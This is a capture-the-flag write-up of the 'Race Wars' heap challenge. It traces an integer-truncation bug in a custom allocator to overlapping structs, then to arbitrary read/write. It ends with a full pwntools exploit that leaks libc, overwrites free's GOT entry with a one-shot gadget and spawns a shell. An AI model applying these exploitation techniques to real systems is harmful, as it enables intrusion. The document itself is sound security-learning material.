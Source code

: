 # Race Wars

We are given a binary. Its functionality is quite boring. It lets you create tires, select chassis, engine, and transmission. Afterwards, you can modify these, and/or race, in which you always lose.

Lets start with static analysis. The functionality is also quite bland. There are a ton of branches to each of these options, which assigns different values for different chosen options.

However, there is one big thing of interest you find while reversing. It is the function at 0x400bb6, which is called by all four options, to which values are being assigned. Diving into that function, we quickly find that it serves to allocate memory. There are two branches: if the requested size is greater than 0xfff, then it uses malloc() to allocate memory. However, if it is less, then the binary implements its own malloc implementation with posix_memalign. We also find that for the create tires option, we can control the size, and it mallocs size*32, so we have a controlled malloc size.

Now, custom heap implementations and heaps in general are a pain to statically reverse, so I begin dynamic analysis. Breaking at 0x400b66 and 0x400bb2, I can view the malloc size request and returned pointer. I tried viewing the heap and structs for any overflows and OOBs, to no avail. Then I tried putting in garbage values for tire malloc sizes, and found that huge values causes malloc to return 0x0 and errors out. However, when putting in huge values, I also noticed that, since it gets multiplied by 32, the bits greater than 32 bits get truncated off. So if I can pass in a size of 0x100000000 to malloc, that gets truncated to 0x00000000. I tried entering the tire size 0x100000000/32, and sure enough, the size passed to malloc is 0x0. After playing around with this, I find that the first malloc(0x0) and another malloc(0x18) actually returns the same pointer! We have found our vulnerability - double pointers.

So what can we do with this? The modifying transmission function sounds like a great read and write primitive, because it has built in functionalities to do that for us as long as gear size is large enough. So, if the gear size struct is also the same pointer as another struct we control, then we can modify gear size to an extremely large number, and gain arbitrary read/write primitive. The tire struct is perfect for this, since we control 8 bytes through editing tires:

```
printf("modify what?\n\t(1) width\n\t(2) aspect ratio\n\t(3) construction\n\t(4) diameter\nCHOICE: ");
  __isoc99_scanf("%d", &v5);
  if ( v5 == 2 )
  {
    printf("new aspect_ratio: ", &v5);
    __isoc99_scanf("%d", &v6); //two byte read
    printf("tires are now %d aspect\n", (unsigned __int8)v6);
    *(_WORD *)(a1 + 2) = v6; //two byte write
    goto LABEL_16;
  }
```

So we create a tire and transmission that point to the same malloced chunk. Then we modify tire struct to a huge number by changing all four of its options to -1 (aka 0xffff). Then we can view the transmission, and find that we have arbitrary read and write.

```
tires are now 255 thick
Your Tires are: 655356553565535
modify your car
pick:
        (1) tires
        (2) chassis
        (3) engine
        (4) transmission
        (5) buy new part
        (6) RACE!
CHOICE: 4
choice 4
ok, you have a transmission with 18446744073709551615 gears
which gear to modify?
```

With this, we can leak the heap addresses near the transmission struct, and I found one at offset 0x17. With this we can calculate the address of our transmission struct, and gain read to everything.

Next I leaked libc by reading from putsgot, calculated address of one shot gadget, then overwrote free GOT with it, triggered free, and got a shell.

```python
from pwn import *

def modtire(c, v):
	p.recvuntil('CHOICE: ')
	p.sendline('1')
	p.recvuntil('CHOICE: ')
	p.sendline(str(c))
	p.recvuntil(': ')
	p.sendline(str(v))
def twocomp(val):
	return 0xffffffffffffffff - val + 1
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()
def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

p = remote('2f76febe.quals2018.oooverflow.io', 31337)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

p.recvuntil('CHOICE: ')
p.sendline('1')
p.sendline(str(0x100000000/32))

p.recvuntil('CHOICE: ')
p.sendline('4')
p.recvuntil('? ')
p.sendline('0')

p.recvuntil('CHOICE: ')
p.sendline('2')
p.sendline('1')

p.recvuntil('CHOICE: ')
p.sendline('3')

modtire('1', '-1')
modtire('2', '-1')
modtire('3', '-1')
modtire('4', '-1')

add = ''
for x in range(0x17, 0x17+8):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(x + 1))
	p.recvuntil(' is ')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
heapleak = u64(add.decode('hex'))
struct = heapleak - 0x10

distance = struct - 0x603020 #putgot
add = ''
for x in xrange(distance, distance-8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
puts_addr = u64(add.decode('hex'))
print "struct:" + hex(struct)
print 'puts:' + hex(puts_addr)
libc_base = puts_addr - 0x6f690 #put offset
oneshot = libc_base + 0x4526a #oneshot offset
print "oneshot:" + hex(oneshot)
asdf = 0
distance = struct - 0x603018 #free got
for x in xrange(distance, distance - 8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	p.sendline(str(ord(p64(oneshot)[asdf])))
	p.sendline('1')
	asdf += 1

p.recvuntil('CHOICE: ')
p.sendline('6')

p.interactive()
```

## Flag: OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3 w4rz}

